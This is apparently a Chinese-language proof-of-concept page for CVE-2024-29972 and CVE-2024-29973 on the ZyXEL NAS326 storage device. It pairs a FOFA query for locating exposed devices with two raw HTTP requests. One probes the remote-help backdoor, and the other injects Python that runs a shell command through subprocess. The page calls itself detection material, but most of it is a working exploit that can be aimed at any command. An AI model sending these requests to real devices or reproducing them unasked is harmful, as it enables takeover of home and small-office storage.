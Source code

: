 **fofa**

```
app="ZYXEL-NAS326"
```

**一、漏洞简述**

ZYXEL-NAS326 是 ZyXEL 公司生产的一款 2 盘位 NAS 设备,采用英特尔 Celeron 双核处理器和 2GB DDR3 内存,提供 Gigabit 以太网、USB 3.0 等接口,搭载自主 NAS 操作系统,支持文件共享、媒体服务等功能,适用于家庭存储备份和小型办公环境的协同存储需求。其存在CVE-2024-29972后门漏洞，可配合其他漏洞如CVE-2024-29973执行系统命令，攻击者可通过该漏洞控制设备。

**二、漏洞检测poc**

**后门检测**

```yaml
GET /desktop,/cgi-bin/remote_help-cgi/favicon.ico?type=sshd_tdc HTTP/1.1
Host: x.x.x.x
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

```

result=0 有

命令执行

```yaml
POST /cmd,/simZysh/register_main/setCookie HTTP/1.1
Host: x.x.x.x
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 111

c0=storage_ext_cgi CGIGetExtStoInfo None) and False or __import__("subprocess").check_output("id", shell=True)#


```

